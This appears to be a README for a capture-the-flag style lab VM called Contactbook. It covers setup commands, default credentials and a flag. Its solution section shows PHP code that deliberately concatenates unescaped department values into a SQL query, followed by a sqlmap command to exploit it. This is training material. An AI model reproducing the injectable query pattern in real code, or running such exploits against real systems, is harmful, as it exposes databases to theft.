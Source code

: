 # PHP SQL injection 2 Attack (Contactbook)

Download VM:
* Credentials: ```user/user```, ```root/123456```
* SSH disabled
* Debian 11, 2 GB disk

# Agenda

In this lab, we will try to find out how well the new Corporate Employee Directory security has been implemented.


# Setup

*Requirements:*  **2 GB** of disk space for VM.

Put all files in **source** to folder **/var/www/html/**


```bash
sudo apt-get update --allow-releaseinfo-change
sudo apt-get install nginx mariadb-server php-fpm php-mysql

sudo chown www-data:www-data -R /var/www/html/
sudo chmod 755 -R /var/www/html/*
```

#### Manual database set up

```bash
sudo mysql -e "UPDATE mysql.user SET Password = PASSWORD('12345') WHERE User = 'root'"
sudo mysql -e "DELETE FROM mysql.user WHERE User='';"
sudo mysql -e "DELETE FROM mysql.user WHERE User='root' AND Host NOT IN ('localhost', '127.0.0.1', '::1');"
sudo mysql -e "DROP DATABASE IF EXISTS test;"
sudo mysql -e "DELETE FROM mysql.db WHERE Db='test' OR Db='test\\_%';"
sudo mysql -e "create database contactbook";
sudo mysql -e "CREATE USER 'admin'@'localhost' IDENTIFIED BY 'admin'";
sudo mysql -e "GRANT ALL PRIVILEGES ON contactbook . * TO 'admin'@'localhost'";
sudo mysql -e "FLUSH PRIVILEGES";

sudo mysql contactbook < /var/www/html/db.sql
sudo rm -f /var/www/html/db.sql

```



#### Set up a flag

```
sudo mysql -e "insert into contactbook.flag(\`id\`) values ('SQL_Injection_Contact');";
```


#### Nginx configure

Change **/etc/nginx/sites-enabled/default** (php-fpm version may be different):

```
server {
        listen 80 default_server;
        listen [::]:80 default_server;

        root /var/www/html;
        index index.php;
        server_name _;

        location / {
                try_files $uri $uri/ =404;
        }
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }

}
```

Reload nginx config
```
sudo service nginx restart
#sudo systemctl restart nginx
```


## How to check that everything works ?

1. Open the main page. You should see the working app. 


## Solution

There is SQL injection

```php

if (isset($_POST['search']) && strlen($_POST['search'])>3)
{
	$search=$mysqli->real_escape_string(trim($_POST['search']));
    $query = "SELECT * FROM employees where (`name` like '%".$search."%' or `surname` like '%".$search."%')";
	
	if(isset($_POST['department']))
	{
		
		if(count($_POST['department'])>0)
		{
			$where=" AND `department` in (";
			foreach($_POST['department'] as $dep)
			{
				$where.="'".$dep."',"; //--- injection here
			}
			$where=substr($where, 0, -1);
			$where.=")";
			$query.=$where;
		}
	}
}

```

Exploit it with SQLMAP:

```
sqlmap --url IP --data="search=William&department%5B%5D=Network&department%5B%5D=Telephony" 
```







